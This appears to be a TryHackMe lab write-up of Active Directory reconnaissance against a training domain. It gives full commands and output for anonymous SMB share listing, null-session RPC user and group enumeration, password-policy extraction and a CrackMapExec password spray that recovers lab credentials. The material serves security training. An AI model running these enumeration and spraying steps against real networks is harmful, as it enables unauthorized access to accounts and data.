



# AD Basic Enumeration

## Executive Summary

| Machine | Authors | Category | Platform |
| :--- | :--- | :--- | :--- |
| AD Basic Enumeration | tryhackme, strategos, DrGonz0, empanadaL0ver | Beginner | TryHackMe |

**Summary:** This room walks through the foundational methodology of Active Directory reconnaissance against a live lab environment reachable over a TryHackMe VPN tunnel. After establishing connectivity and performing a subnet-wide ping sweep, an Nmap service scan unmistakably identified `10.211.11.10` as a Windows Server 2019 Domain Controller for the `tryhackme.loc` forest, advertising Kerberos on port 88, LDAP on port 389, and SMB on port 445, while `10.211.11.20` presented as a domain-joined workstation named `WRK`. The first critical misconfiguration surfaced during anonymous SMB enumeration: the Domain Controller permitted unauthenticated listing of multiple shares, and the `UserBackups` share was directly accessible without credentials, yielding `flag.txt` containing `THM{88_SMB_88}`. Continuing with null-session RPC access via `rpcclient`, a complete list of 32 domain user accounts and all domain groups was retrieved without any authentication, revealing an administratively rich environment with custom tiers such as `Tier 0 Admins`, `Tier 1 Admins`, and `Tier 2 Admins`. The password policy, extracted via CrackMapExec, disclosed a minimum length of seven characters, a lockout threshold of ten attempts, and a reset window of two minutes, parameters that make a controlled password spray entirely viable. Armed with the harvested user list and a short candidate password list, CrackMapExec confirmed valid credentials for the account `rduke` with the password `Password1!` against the workstation `WRK`, completing the enumeration chain from unauthenticated network discovery all the way to confirmed domain credential recovery.

---

## Task 1: VPN Connectivity

The first step was establishing a secure VPN tunnel into the TryHackMe lab network. The provided OpenVPN configuration profile was edited as needed and then invoked with elevated privileges. After the TLS handshake completed and the tunnel was fully negotiated, the client received an internal address of `10.250.11.10/24` on interface `tun0`, with a route pushed for the target subnet `10.211.11.0/24` via gateway `10.250.11.1`. The process was backgrounded with `bg` to keep the terminal available for subsequent work.

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ vim Moenkoe-Jr-Pentester-AD-v01-69acf6444e7ef67e2ec1af4c

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ sudo openvpn Moenkoe-Jr-Pentester-AD-v01-69acf6444e7ef67e2ec1af4c
2026-03-08 15:53:50 Note: --cipher is not set. OpenVPN versions before 2.5 defaulted to BF-CBC as fallback when cipher negotiation failed in this case. If you need this fallback please add '--data-ciphers-fallback BF-CBC' to your configuration and/or add BF-CBC to --data-ciphers.
2026-03-08 15:53:50 Note: cipher 'AES-256-CBC' in --data-ciphers is not supported by ovpn-dco, disabling data channel offload.
2026-03-08 15:53:50 OpenVPN 2.6.14 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] [DCO]
2026-03-08 15:53:50 library versions: OpenSSL 3.5.0 8 Apr 2025, LZO 2.10
2026-03-08 15:53:50 DCO version: N/A
2026-03-08 15:53:50 TCP/UDP: Preserving recently used remote address: [AF_INET]54.217.182.218:1194
2026-03-08 15:53:50 Socket Buffers: R=[212992->212992] S=[212992->212992]
2026-03-08 15:53:50 UDPv4 link local: (not bound)
2026-03-08 15:53:50 UDPv4 link remote: [AF_INET]54.217.182.218:1194
2026-03-08 15:53:50 TLS: Initial packet from [AF_INET]54.217.182.218:1194, sid=9b3caa66 475963b4
2026-03-08 15:53:51 VERIFY OK: depth=1, CN=ChangeMe
2026-03-08 15:53:51 VERIFY KU OK
2026-03-08 15:53:51 Validating certificate extended key usage
2026-03-08 15:53:51 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2026-03-08 15:53:51 VERIFY EKU OK
2026-03-08 15:53:51 VERIFY OK: depth=0, CN=server
2026-03-08 15:53:51 Control Channel: TLSv1.3, cipher TLSv1.3 TLS_AES_256_GCM_SHA384, peer certificate: 2048 bits RSA, signature: RSA-SHA256, peer temporary key: 253 bits X25519
2026-03-08 15:53:51 [server] Peer Connection Initiated with [AF_INET]54.217.182.218:1194
2026-03-08 15:53:51 TLS: move_session: dest=TM_ACTIVE src=TM_INITIAL reinit_src=1
2026-03-08 15:53:51 TLS: tls_multi_process: initial untrusted session promoted to trusted
2026-03-08 15:53:52 SENT CONTROL [server]: 'PUSH_REQUEST' (status=1)
2026-03-08 15:53:52 PUSH: Received control message: 'PUSH_REPLY,route 10.211.11.0 255.255.255.0,route-metric 1000,route-gateway 10.250.11.1,topology subnet,ping 5,ping-restart 120,ifconfig 10.250.11.10 255.255.255.0,peer-id 4'
2026-03-08 15:53:52 OPTIONS IMPORT: --ifconfig/up options modified
2026-03-08 15:53:52 OPTIONS IMPORT: route options modified
2026-03-08 15:53:52 OPTIONS IMPORT: route-related options modified
2026-03-08 15:53:52 Using peer cipher 'AES-256-CBC'
2026-03-08 15:53:52 net_route_v4_best_gw query: dst 0.0.0.0
2026-03-08 15:53:52 net_route_v4_best_gw result: via 192.168.0.1 dev eth0
2026-03-08 15:53:52 ROUTE_GATEWAY 192.168.0.1/255.255.255.0 IFACE=eth0 HWADDR=08:00:27:07:e3:85
2026-03-08 15:53:52 TUN/TAP device tun0 opened
2026-03-08 15:53:52 net_iface_mtu_set: mtu 1500 for tun0
2026-03-08 15:53:52 net_iface_up: set tun0 up
2026-03-08 15:53:52 net_addr_v4_add: 10.250.11.10/24 dev tun0
2026-03-08 15:53:52 net_route_v4_add: 10.211.11.0/24 via 10.250.11.1 dev [NULL] table 0 metric 1000
2026-03-08 15:53:52 Initialization Sequence Completed
2026-03-08 15:53:52 Data Channel: cipher 'AES-256-CBC', auth 'SHA512', peer-id: 4
2026-03-08 15:53:52 Timers: ping 5, ping-restart 120
2026-03-08 15:53:52 Protocol options: explicit-exit-notify 3
^Z
zsh: suspended  sudo openvpn Moenkoe-Jr-Pentester-AD-v01-69acf6444e7ef67e2ec1af4c

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ bg
[1]  + continued  sudo openvpn Moenkoe-Jr-Pentester-AD-v01-69acf6444e7ef67e2ec1af4c
```


---

## Task 2: Network Reconnaissance

With the VPN tunnel active and the `10.211.11.0/24` subnet routed through `tun0`, a ping sweep was run across the entire range to discover live hosts. Three addresses responded: `10.211.11.10`, `10.211.11.20`, and `10.211.11.250`. The `.250` address represents the VPN gateway itself, so the two targets of interest were written to a `hosts.txt` file for a focused service scan.

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ nmap -sn 10.211.11.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-08 15:54 WIB
Nmap scan report for 10.211.11.10
Host is up (0.20s latency).
Nmap scan report for 10.211.11.20
Host is up (0.20s latency).
Nmap scan report for 10.211.11.250
Host is up (0.21s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 14.33 seconds
```

A targeted service and script scan against the canonical AD ports (88, 135, 139, 389, 445, 636) was then launched against both hosts. The results for `10.211.11.10` were definitive: Kerberos on port 88, MSRPC on port 135, NetBIOS on port 139, LDAP on port 389 advertising the domain `tryhackme.loc`, SMB on port 445 identifying the host as `DC.tryhackme.loc` running Windows Server 2019 Datacenter, and a wrapped LDAPS on port 636. SMB signing was confirmed as enabled and required, meaning pass-the-hash relay attacks against the DC would not be viable. The host `10.211.11.20` identified itself as `WRK`, a domain member running Windows 10 or Server 2019, with SMB signing enabled but **not** required — a meaningful distinction for later attack phases.

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ echo '10.211.11.10\n10.211.11.20' > hosts.txt

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ cat hosts.txt
10.211.11.10
10.211.11.20

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ nmap -p 88,135,139,389,445,636 -sV -sC -iL hosts.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-08 15:58 WIB
Nmap scan report for 10.211.11.10
Host is up (0.20s latency).

PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-03-08 08:56:50Z)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: tryhackme.loc0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds Windows Server 2019 Datacenter 17763 microsoft-ds (workgroup: TRYHACKME)
636/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2m12s, deviation: 5s, median: -2m15s
| smb-os-discovery:
|   OS: Windows Server 2019 Datacenter 17763 (Windows Server 2019 Datacenter 6.3)
|   Computer name: DC
|   NetBIOS computer name: DC\x00
|   Domain name: tryhackme.loc
|   Forest name: tryhackme.loc
|   FQDN: DC.tryhackme.loc
|_  System time: 2026-03-08T08:57:10+00:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2026-03-08T08:57:11
|_  start_date: N/A

Nmap scan report for 10.211.11.20
Host is up (0.20s latency).

PORT    STATE  SERVICE       VERSION
88/tcp  closed kerberos-sec
135/tcp open   msrpc         Microsoft Windows RPC
139/tcp open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp closed ldap
445/tcp open   microsoft-ds?
636/tcp closed ldapssl
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2m16s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-03-08T08:57:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 41.68 seconds
```



---

## Task 3: Anonymous SMB Enumeration and Flag Recovery

With the DC identified, the next logical step was to probe SMB for unauthenticated access. Using `smbclient` with the `-N` flag (no password), the share listing against the DC was requested anonymously. The connection succeeded, revealing eight shares: the standard administrative shares (`ADMIN$`, `C$`, `IPC$`), the domain shares (`NETLOGON`, `SYSVOL`), and three non-standard shares that immediately warranted investigation: `AnonShare`, `SharedFiles`, and `UserBackups`.

1. **Enumerating the share list:** The anonymous login produced a full share listing without requiring any credentials.

2. **Exploring `SharedFiles`:** This share contained a single file, `Mouse_and_Malware.txt`. While the file was not retrieved in these notes, its presence suggests informational content planted for the room's narrative context.

3. **Exploring `AnonShare`:** This share was completely empty.

4. **Exploring `UserBackups` and recovering the flag:** This share contained two files: `story.txt` and `flag.txt`. The `flag.txt` file was downloaded with `get` and read locally, revealing the first flag for this room.

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ smbclient -L //10.211.11.10 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        AnonShare       Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SharedFiles     Disk
        SYSVOL          Disk      Logon server share
        UserBackups     Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.211.11.10 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ smbclient //10.211.11.10/SharedFiles -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                   D        0  Sun Mar  8 14:50:22 2026
  ..                                  D        0  Sun Mar  8 14:50:22 2026
  Mouse_and_Malware.txt               A     1141  Thu May 15 16:40:19 2025

                7863807 blocks of size 4096. 3477066 blocks available
smb: \> exit

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ smbclient //10.211.11.10/AnonShare -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Mar  8 14:50:19 2026
  ..                                  D        0  Sun Mar  8 14:50:19 2026

                7863807 blocks of size 4096. 3477072 blocks available
smb: \> exit

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ smbclient //10.211.11.10/UserBackups -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Mar  8 14:50:25 2026
  ..                                  D        0  Sun Mar  8 14:50:25 2026
  flag.txt                            A       14  Thu May 15 16:34:33 2025
  story.txt                           A      953  Thu May 15 16:37:57 2025

                7863807 blocks of size 4096. 3477072 blocks available
smb: \> get flag.txt
getting file \flag.txt of size 14 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ cat flag.txt
THM{88_SMB_88}
```

> **Flag:** `THM{88_SMB_88}`


---

## Task 4: RPC Null Session Enumeration

The Microsoft Remote Procedure Call (MSRPC) interface exposed on port 135, combined with the SMB null-session permission model, allowed full unauthenticated enumeration via `rpcclient`. Connecting with an empty username and no password opened an RPC session against the DC, through which domain objects could be queried directly.

1. **Querying a specific user by RID:** The `queryuser` command was used with the known RID `0xa31` (decimal 2609) to retrieve the full profile of user `rduke`, whose display name is **Raoul Duke**. The account had logged on once as of the time of enumeration, and the password was set on 13 May 2025. The `acb_info` value of `0x00000210` indicates a normal user account with no special flags.

2. **Enumerating all domain groups:** The `enumdomgroups` command returned the complete list of global security groups, confirming the presence of all standard built-in groups as well as several custom operational groups created by administrators: `Tier 2 Admins`, `Tier 1 Admins`, `Tier 0 Admins`, `HR Share RW`, `Internet Access`, and `Server Admins`. This tiering model indicates a structured privilege delegation environment.

3. **Enumerating alias (local domain) groups:** The `enumalsgroups domain` command surfaced the domain-local groups, including `Cert Publishers`, `DnsAdmins`, and the RODC password replication groups.

4. **Querying a second user by RID:** Querying RID `0x662` (decimal 1634) revealed user `katie.thomas` (full name: Katie Thomas). Notably, her `Password can change Time` is set to the epoch (`Thu, 01 Jan 1970`), which means the `PASSWD_CANT_CHANGE` ACB flag is set — a detail of interest for future privilege analysis. Her logon count of zero also indicates the account has never been used interactively.

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ rpcclient -U "" 10.211.11.10 -N
rpcclient $> queryuser 0xa31
        User Name   :   rduke
        Full Name   :   Raoul Duke
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Sun, 08 Mar 2026 15:04:25 WIB
        Logoff Time              :      Thu, 01 Jan 1970 07:00:00 WIB
        Kickoff Time             :      Thu, 14 Sep 30828 09:48:05 WIB
        Password last set Time   :      Tue, 13 May 2025 14:46:01 WIB
        Password can change Time :      Wed, 14 May 2025 14:46:01 WIB
        Password must change Time:      Thu, 14 Sep 30828 09:48:05 WIB
        unknown_2[0..31]...
        user_rid :      0xa31
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000001
        padding1[0..7]...
        logon_hrs[0..21]...
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x456]
group:[Tier 2 Admins] rid:[0x64a]
group:[Tier 1 Admins] rid:[0x64b]
group:[Tier 0 Admins] rid:[0x64c]
group:[HR Share RW] rid:[0x64d]
group:[Internet Access] rid:[0x64e]
group:[Server Admins] rid:[0x64f]
rpcclient $> enumalsgroups domain
group:[Cert Publishers] rid:[0x205]
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x455]
rpcclient $> queryuser 0x662
        User Name   :   katie.thomas
        Full Name   :   Katie Thomas
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Thu, 01 Jan 1970 07:00:00 WIB
        Logoff Time              :      Thu, 01 Jan 1970 07:00:00 WIB
        Kickoff Time             :      Thu, 14 Sep 30828 09:48:05 WIB
        Password last set Time   :      Sat, 10 May 2025 22:14:56 WIB
        Password can change Time :      Thu, 01 Jan 1970 07:00:00 WIB
        Password must change Time:      Thu, 14 Sep 30828 09:48:05 WIB
        unknown_2[0..31]...
        user_rid :      0x662
        group_rid:      0x201
        acb_info :      0x00000211
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```



---

## Task 5: Password Policy Extraction, User Harvesting, and Password Spraying

This task combined three sequential techniques: extracting the domain password policy, building a clean user list, and conducting a targeted password spray — all leading to the recovery of valid domain credentials.

### Password Policy Extraction

CrackMapExec's `--pass-pol` flag was used to query the domain password policy directly over SMB. The results are critical intelligence that must be gathered before any spray attempt to avoid triggering lockouts.

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ crackmapexec smb 10.211.11.10 --pass-pol
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SSH protocol database
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Initializing SMB protocol database
[*] Initializing LDAP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.211.11.10    445    DC               [*] Windows Server 2019 Datacenter 17763 x64 (name:DC) (domain:tryhackme.loc) (signing:True) (SMBv1:True)
SMB         10.211.11.10    445    DC               [+] Dumping password info for domain: TRYHACKME
SMB         10.211.11.10    445    DC               Minimum password length: 7
SMB         10.211.11.10    445    DC               Password history length: 24
SMB         10.211.11.10    445    DC               Maximum password age: 41 days 23 hours 53 minutes
SMB         10.211.11.10    445    DC
SMB         10.211.11.10    445    DC               Password Complexity Flags: 000001
SMB         10.211.11.10    445    DC                   Domain Refuse Password Change: 0
SMB         10.211.11.10    445    DC                   Domain Password Store Cleartext: 0
SMB         10.211.11.10    445    DC                   Domain Password Lockout Admins: 0
SMB         10.211.11.10    445    DC                   Domain Password No Clear Change: 0
SMB         10.211.11.10    445    DC                   Domain Password No Anon Change: 0
SMB         10.211.11.10    445    DC                   Domain Password Complex: 1
SMB         10.211.11.10    445    DC
SMB         10.211.11.10    445    DC               Minimum password age: 1 day 4 minutes
SMB         10.211.11.10    445    DC               Reset Account Lockout Counter: 2 minutes
SMB         10.211.11.10    445    DC               Locked Account Duration: 2 minutes
SMB         10.211.11.10    445    DC               Account Lockout Threshold: 10
SMB         10.211.11.10    445    DC               Forced Log off Time: Not Set
```

The key parameters noted: a lockout threshold of **10** attempts and a reset window of only **2 minutes**. This means a spray of up to nine passwords per account is possible before risking a lockout, and waiting just two minutes resets the counter. Minimum length of seven characters with complexity enabled narrows candidate passwords to those meeting these requirements.

### Domain User Enumeration

Using `rpcclient`'s `enumdomusers` command piped through `grep` and `awk`, the raw output (which interleaves usernames and RIDs in bracketed pairs) was parsed to produce two files: `users.txt` containing all tokens including hex RIDs, and `users_clean.txt` containing only the 32 actual usernames.

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ rpcclient -U "" 10.211.11.10 -N -c "enumdomusers" | grep -oP '\[\K[^\]]+' > users.txt

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ wc -l users.txt
64 users.txt

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ tail -n 5 users.txt
0x669
rduke
0xa31
user
0x1201

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ rpcclient -U "" 10.211.11.10 -N -c "enumdomusers" | awk -F'[' '{print $2}' | awk -F']' '{print $1}' | grep -v "0x" > users_clean.txt

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ wc -l users_clean.txt
32 users_clean.txt

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ tail -n 5 users_clean.txt
strate905
krbtgtsvc
asrepuser1
rduke
user
```

The 64-line raw file contained 32 usernames interleaved with 32 hex RIDs. The clean file of 32 usernames was ready for spraying. Notable accounts visible in the tail include `krbtgtsvc` and `asrepuser1`, names that hint at Kerberoasting and AS-REP Roasting targets respectively for future exercises.

### Password Candidate List Construction

A small, focused password file was crafted by hand, containing five candidates that conform to the complexity policy (minimum seven characters, mixed case and special characters):

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ vim passwords.txt

┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ cat passwords.txt
Password!
Password1
Password1!
P@ssword
Pa55word1
```

### Password Spray Execution

CrackMapExec was pointed at the workstation `10.211.11.20` (WRK) rather than the DC, a deliberate choice that avoids direct authentication noise against the most sensitive host. The tool iterated through all 32 users against all 5 passwords. After many `STATUS_LOGON_FAILURE` responses, a single `[+]` match was returned:

```bash
┌──(kali㉿kali)-[/tmp/adbasicenumeration]
└─$ crackmapexec smb 10.211.11.20 -u users_clean.txt -p passwords.txt
SMB         10.211.11.20    445    WRK              [*] Windows 10 / Server 2019 Build 17763 x64 (name:WRK) (domain:tryhackme.loc) (signing:False) (SMBv1:False)
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\Administrator:Password! STATUS_LOGON_FAILURE
...
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\rduke:Password1 STATUS_LOGON_FAILURE
SMB         10.211.11.20    445    WRK              [+] tryhackme.loc\rduke:Password1!
```

> **Valid credentials recovered:** `tryhackme.loc\rduke : Password1!`



---

## Task 6: Completion

With valid credentials in hand for `rduke`, the enumeration phase is complete and the groundwork is laid for authenticated AD enumeration and further exploitation. The room's objectives were all satisfied.


---

## Attack Chain Summary

1. **Reconnaissance:** A ping sweep across `10.211.11.0/24` discovered two live hosts. A targeted Nmap service scan on AD-specific ports confirmed `10.211.11.10` as the Domain Controller `DC.tryhackme.loc` running Windows Server 2019 within the `tryhackme.loc` forest, and `10.211.11.20` as a domain workstation named `WRK` with SMB signing disabled.

2. **Vulnerability Discovery:** Anonymous (null-session) access was confirmed against both SMB and MSRPC on the Domain Controller. SMB share enumeration revealed three non-standard shares accessible without credentials, and RPC null sessions permitted unrestricted querying of user accounts, group memberships, and account attributes.

3. **Exploitation:** Unauthenticated access to the `UserBackups` SMB share allowed direct retrieval of `flag.txt`, yielding the credential-free flag `THM{88_SMB_88}`. This demonstrated that sensitive data was stored on an improperly secured share with no access control enforcement.

4. **Internal Enumeration:** Null-session RPC enumeration via `rpcclient` produced a complete list of 32 domain user accounts and revealed a rich group structure including custom administrative tiers. CrackMapExec's `--pass-pol` flag exposed the domain password policy, informing a safe and targeted spray strategy within the ten-attempt lockout window.

5. **Privilege Escalation (Credential Recovery):** A password spray using CrackMapExec against the workstation with the harvested user list and a five-candidate password dictionary confirmed the credential pair `tryhackme.loc\rduke : Password1!`, granting authenticated access to the domain and opening the door for all subsequent authenticated enumeration and exploitation paths.
